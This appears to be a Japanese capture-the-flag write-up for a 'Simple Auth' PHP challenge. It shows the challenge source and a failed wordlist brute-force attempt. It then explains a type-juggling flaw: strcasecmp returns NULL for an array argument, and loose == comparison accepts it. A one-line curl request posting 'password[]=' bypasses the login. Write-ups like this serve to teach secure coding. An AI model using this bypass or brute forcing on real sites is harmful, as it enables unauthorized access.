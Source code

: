 自力解答ならず。  

### 間違い

```php
<!DOCTYPE html>
<html>
  <head>
    <title>Simple Auth</title>
  </head>
  <body>
    <div>
<?php
$password = 'FLAG_????????????????';
if (isset($_POST['password']))
    if (strcasecmp($_POST['password'], $password) == 0)
        echo "Congratulations! The flag is $password";
    else
        echo "incorrect...";
?>
    </div>
    <form method="POST">
      <input type="password" name="password">
      <input type="submit">
    </form>
  </body>
</html>
```

脆弱性はなさそう。仕方ないから総当たりでパスワードを当てにいくことにする。  

``John the Ripper``の開発元が公開しているありがちなパスワードリストをダウンロード。  

```bash
$ wget https://download.openwall.net/pub/wordlists/passwords/password.gz
$ gzip -d password.gz
```

パスワードを1つ1つ手打ちするのはだるいのでPythonにやらせる。  
準備として、PythonのHTTPライブラリ``requests``とHTMLパーサライブラリ``BeautifulSoup``をインストール。  

```bash
$ pip install requests BeautifulSoup4
```

実行。``strcasecmp()``は大文字小文字を区別しないからどれかはヒットするやろ。  

```bash
$ python3 crack.py password
...
failed...: FLAG_nite
failed...: FLAG_notused
failed...: FLAG_sss
YOU ARE A LOSER.
```

はい。  

### 正解

``strcasecmp($_POST['password'], $password) == 0``に脆弱性がある。  
``strcasecmp()``と``strcmp()``は厳密な型チェックをしないため、引数に配列を渡せる。返り値は``NULL``。また、``===``ではなく``==``で比較しているため、ここではfalsyな値（``NULL``, ``false``, ``0``）はすべて同一扱いされる。  

```bash
# https://www.php.net/manual/ja/function.strcmp.php の User Contributed Notes より引用
If you rely on strcmp for safe string comparisons, both parameters must be strings, the result is otherwise extremely unpredictable.
For instance you may get an unexpected 0, or return values of NULL, -2, 2, 3 and -3.

strcmp("5", 5) => 0
strcmp("15", 0xf) => 0
strcmp(61529519452809720693702583126814, 61529519452809720000000000000000) => 0
strcmp(NULL, false) => 0
strcmp(NULL, "") => 0
strcmp(NULL, 0) => -1
strcmp(false, -1) => -2
strcmp("15", NULL) => 2
strcmp(NULL, "foo") => -3
strcmp("foo", NULL) => 3
strcmp("foo", false) => 3
strcmp("foo", 0) => 1
strcmp("foo", 5) => 1
strcmp("foo", array()) => NULL + PHP Warning # おい
strcmp("foo", new stdClass) => NULL + PHP Warning
strcmp(function(){}, "") => NULL + PHP Warning
```

具体的なクラック方法は、以下のようにしてパラメータを無理やり配列扱いさせる。値はなんでもいい。  

```bash
curl -X POST -d 'password[]=' https://ctfq.u1tramarine.blue/q32/auth.php
```

### 参考

- [strcasecmp | PHP マニュアル](https://www.php.net/manual/ja/function.strcasecmp.php)
- [スクレイピング・ハッキング・ラボ Pythonで自動化する未来型生活](https://nextpublishing.jp/book/12190.html)
- [クイックスタート | Requests](https://requests-docs-ja.readthedocs.io/en/latest/user/quickstart/)
- [Kali LinuxでJohn The Ripper,hydraによるパスワード解析 | Qiita](https://qiita.com/y-araki-qiita/items/cda417e49108eee1fb7b)
